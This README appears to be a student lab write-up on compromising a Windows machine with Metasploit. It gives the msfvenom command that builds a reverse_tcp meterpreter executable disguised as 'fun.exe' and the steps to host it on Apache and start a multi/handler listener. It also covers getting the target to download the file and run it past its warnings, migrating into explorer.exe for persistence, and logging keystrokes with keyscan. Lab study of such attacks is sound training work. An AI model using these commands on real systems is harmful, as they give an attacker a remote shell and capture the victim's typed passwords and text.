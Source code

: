 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
![image](https://github.com/Sahithya373/Compromising-windows-using-Metasploit/assets/147017926/b6648e43-ea98-4778-95dd-e723e0c72deb)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT:

![image](https://github.com/Sahithya373/Compromising-windows-using-Metasploit/assets/147017926/d8db2da9-a060-4cef-af50-ab6c11832650)

copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/Sahithya373/Compromising-windows-using-Metasploit/assets/147017926/4a0475a2-651d-40dd-a854-787fb884aceb)

Start apache server sudo systemctl apache2 start

![image](https://github.com/Sahithya373/Compromising-windows-using-Metasploit/assets/147017926/f3c73031-1532-4c90-a8b5-d2ce5bcf3420)

Check the status of apache2

![image](https://github.com/Sahithya373/Compromising-windows-using-Metasploit/assets/147017926/97376ff3-c233-486b-90b9-5a2767bd3d81)

Invoke msfconsole:

## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![image](https://github.com/Sahithya373/Compromising-windows-using-Metasploit/assets/147017926/75de1f8c-2e98-499d-987b-5c3467bba823)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/Sahithya373/Compromising-windows-using-Metasploit/assets/147017926/46cb4446-b71a-4b44-82f6-2006b9d9110d)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/Sahithya373/Compromising-windows-using-Metasploit/assets/147017926/fbaf0f8e-4a40-4aa5-831a-394cec2b1f10)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/Sahithya373/Compromising-windows-using-Metasploit/assets/147017926/269489e9-6556-4798-9bdd-b85fec67a57d)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/Sahithya373/Compromising-windows-using-Metasploit/assets/147017926/4989b64e-1439-4610-9e73-5aef90d5947a)

keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/Sahithya373/Compromising-windows-using-Metasploit/assets/147017926/dd164cd0-1a21-4bb4-9379-522c5adfe079)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
